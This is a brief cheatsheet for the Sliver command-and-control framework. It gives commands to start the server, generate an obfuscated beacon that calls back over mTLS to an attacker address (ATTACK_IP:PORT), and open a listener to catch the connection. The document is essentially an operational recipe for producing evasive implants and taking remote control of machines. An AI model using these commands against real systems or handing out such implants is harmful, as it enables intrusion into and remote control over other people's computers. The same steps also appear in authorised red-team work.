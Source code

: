 # Sliver C2 Cheatsheet

### 1) Start the sliver C2 server

    sliver-server

### 2) Generate a randomly-named obfuscated beacon

    generate beacon --mtls ATTACK_IP:PORT -e

### 3) Create a listener to catch the beacon connection (You can choose mtls or http or https)

    mtls --lhost C2_IP --lport C2_PORT
